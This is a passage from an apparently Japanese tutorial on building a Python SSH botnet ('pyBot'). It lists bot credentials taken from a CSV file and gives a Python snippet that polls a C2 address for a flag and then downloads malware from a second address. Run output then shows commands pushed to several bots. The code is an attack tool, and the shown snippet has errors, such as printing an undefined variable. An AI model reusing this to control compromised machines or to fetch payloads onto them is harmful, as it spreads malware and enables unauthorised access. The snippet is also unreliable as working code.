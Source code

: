 　このように、CSVデータをからクライアントデータ（192.168.33.10', 'guest',
 'toor'）をaddClientに投げます。

　他にも拡張できそうな部分として、次が挙げられます。

```
import urllib2
\#def access():
	add \= "アドレス"
	try:
		sub1 \= urlopen("address1")
		sub2 \= sub1.read()
		print code2
		if int(code2) \=\= 1:
			sub3 \= urlopen("address2")
			sub4 \= sub3.read()
			return sub4
		else:
			return add
	except:
			return add
			pass
```

　命令部分の拡張として、C2サーバーの例としてaddress1からデータ（ここでい
うと1）というデータをダウンロードした場合if文が実行され、address2にアクセ
スし、外部からマルウェアをダウンロードします。
　1で無い場合（ここでは0が望ましい）はelseが実行されます。


### 0x05 実行

　それではスクリプトを実行させてみます。

```
r00tapple@ubuntu:\~/script/pybot$ python pyBot.py
[*] Output from 127.0.0.1
[+] ping -c 3 www.google.com
PING www.google.com (173.194.117.209) 56(84) bytes of data.
64 bytes from nrt04s11-in-f17.1e100.net (173.194.117.209): icmp_seq\=1 ttl\=128 time\=14.0 ms

[*] Output from 192.168.33.10
[+] ping -c 3 www.google.com
PING www.google.com (173.194.117.209) 56(84) bytes of data.
64 bytes from 173.194.117.209: icmp_seq\=1 ttl\=63 time\=7527 ms
64 bytes from 173.194.117.209: icmp_seq\=2 ttl\=63 time\=6530 ms
64 bytes from 173.194.117.209: icmp_seq\=3 ttl\=63 time\=5531 ms

## www.google.com ping statistics
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev \= 5531.118/6529.671/7527.775/815.137 ms, pipe 3

[*] Output from 127.0.0.1
[+] ping -c 3 www.google.com
PING www.google.com (173.194.117.209) 56(84) bytes of data.
64 bytes from nrt04s11-in-f17.1e100.net (173.194.117.209): icmp_seq\=1 ttl\=128 time\=14.0 ms
64 bytes from nrt04s11-in-f17.1e100.net (173.194.117.209): icmp_seq\=2 ttl\=128 time\=14.3 ms
64 bytes from 173.194.117.209: icmp_seq\=3 ttl\=128 time\=13.9 ms

## www.google.com ping statistics
3 packets transmitted, 3 received, 0% packet loss, time 15194ms
rtt min/avg/max/mdev \= 13.966/14.130/14.332/0.180 ms

[*] Output from 192.168.33.10
[+] ls
...
```